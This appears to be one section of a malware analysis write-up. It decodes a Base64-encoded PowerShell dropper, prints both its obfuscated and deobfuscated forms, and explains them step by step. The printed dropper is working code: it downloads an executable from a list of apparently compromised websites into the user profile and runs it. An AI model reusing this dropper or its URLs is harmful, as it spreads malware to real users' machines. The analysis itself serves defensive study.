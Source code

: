 ```yaml
---
layout: default
---
```


### Dropper analysis

Whole script was encoed in Base64. In order to decode it I used this PowerShell script:

```powershell                    
$EncodedString = get-content Base64String.txt
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($EncodedString )) | Out-File -Encoding "ASCII" Decoded.txt
```                    
                
As input the script takes the encoded string from Base64String.txt, decodes it and saves result in Decoded.txt file.

Dropper's code looked like that:

```powershell       
<# https://www.microsoft.com/ #> $Refined_Plastic_Soapzpp='Bordersodi';$realtimevfb = '126';
$invoiceoaj='framerlj';$middlewareltk=$env:userprofile+'\'+$realtimevfb+'.exe';
$back_upjvi='Berkshirekwz';$Plazakpi=.('new-'+'ob'+'ject') NEt.WebCLieNT;
$Dynamicqmb='http://www.pieceofpassion.net/0xrnl3/a27xm99fgd_on7xp-31134189/
@http://www.marketfxelite.com/wp-admin/unnJtCHk/@https://tananfood.com/wp-includes/yoclwyWE/
@http://raisabook.com/wp-content/NjBtuxBzkD/@http://biswalfoodcircle.com/vcobhlons/kaf6j_71wzkgvqso-8/'."sP`Lit"('@');
$Clubomb='Estateswjs';foreach($Music__Gamespmu in $Dynamicqmb){try{$Plazakpi."dO`wN`lOa`dfiLE"($Music__Gamespmu, $middlewareltk);
$Applicationsiqr='Grocerytiw';If ((&('Get'+'-I'+'tem') $middlewareltk)."LE`NgTh" -ge 35609) 
{[Diagnostics.Process]::"s`TARt"($middlewareltk);$transformvdp='Bedfordshirejwc';break;$Concreteija='redundantwwi'}}catch{}}
$morphtqb='Gorgeous_Fresh_Hatiqb'
```

It was also obfuscated so I deobfuscated it (here it was much simpler).

```powershell                
<# https://www.microsoft.com/ #> 
$file_name = '126';
$file_path = $ENV:USERPROFILE;
$file_full_path = $file_path + '\' + $file_name + '.exe';

$web_client = .('new-object') NET.WebClient;
$url_list = 'http://www.pieceofpassion.net/0xrnl3/a27xm99fgd_on7xp-31134189/
        @http://www.marketfxelite.com/wp-admin/unnJtCHk/
        @https://tananfood.com/wp-includes/yoclwyWE/
        @http://raisabook.com/wp-content/NjBtuxBzkD/
        @http://biswalfoodcircle.com/vcobhlons/kaf6j_71wzkgvqso-8/'."SPLIT"('@');

foreach ($url in $url_list) {
try {
    $web_client.DownloadFile($url, $file_full_path);
    If ((&('Get-Item') $file_full_path)."Length" -ge 35609) {
        [Diagnostics.Process]::"Start"($file_full_path);
        break;
    }
} catch {}
}
```   

Explanation is presented below:

1.  The result file is 126.exe, that file will be created in user home directory what is pointed by file_full_path.
2.  Then WebClient object is created which allows for sending and recieving data identified by URI identifier. ('.' is a call operator)
3.  url_list is an array which contains URI identifiers. Split function separates URIs by the '@' character and places them in the next indexes of array.
4.  In for loop WebClient object tries to download the content of 126.exe file from sites stored in url_list.
5.  After each attempt to download the content, the script checks a size of resulted file. If size of that file is greater than 35609 bytes, the file is executed.

#### Table of content:

1.  [Environment configuration](environment-configuration.html)
2.  [Initial analysis](initial-analysis.html)
3.  [Macro analysis](macro-analysis.html)
4.  [Dropper analysis](dropper-analysis.html)
5.  [Detonation](detonation.html)
7.  [Domain analysis](domain-analysis.html)
8.  [Detonation ver. 2](detonation-v2.html)
9.  [Summary](summary.html)